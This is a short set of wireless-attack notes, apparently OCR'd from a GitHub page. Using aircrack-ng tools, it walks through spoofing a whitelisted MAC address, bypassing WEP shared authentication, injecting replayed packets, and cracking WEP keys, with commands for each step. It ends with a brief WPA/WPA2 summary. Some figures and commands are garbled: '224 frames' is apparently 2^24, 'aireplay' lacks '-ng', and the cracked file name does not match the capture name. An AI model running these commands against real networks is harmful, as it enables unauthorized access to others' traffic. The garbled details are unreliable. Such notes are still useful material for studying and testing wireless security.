 Once you have a whitelisted MAC use machanger to spoof it.

```
ifconfig wlan0mon down
macchanger -m 00:00:00:00:00:00 wlan0mon
ifconfig wlan0mon up
```

## WEP - Bypassing shared authentication

```
airodump-ng wlan0mon -c 11 --bssid <mac> -w keystream
```

AUTH columns reads WEP if capture succeeds.

## WLAN Encryption

* Wired equivalent privacy (WEP)
* Wi-fi protected access (WPA)
* Wi-Fi protected access v2 (WPA2)

## WEP encryption

One fundamental weakness WEP is its use of RC4 and short IV value that is recycled
 every 224 frames. There is a 50 percent chance of four IV resuses every 5000 packets.

```
airodump-ng wlan0mon
```

# save a pcap
```
airodump-ng --bssid EE:EE:EE:EE:EE:EE --channel 10 --write wepdemo wlan0mon
```
You may need to generate wep traffic in order to get enough packets to decrypt it.

```
aireplay -3 -b xx:xx:xx:xx:xx:xx -h xx:xx:xx:xx:xx:xx wlan0mon --ignore-negative-one
```

This command will replay packets in the spoofed network.

## cracking wep

aircrack-ng wlan0mon.cap

## WPA/WPA2

* WPA (or WPA v1) primarily uses the Temporal Key Integrity Protocol (TKIP) encryption algorithm.
* WPA2 in contrast uses AES-CCMP algorithm for encryption which is more robust than TKIP

Both WPA and WPA2 allow either EAP-based authentication using Radius servers (enterprise) or
 a Pre-Shared Key (PSK) (personal)-based authentication schema.
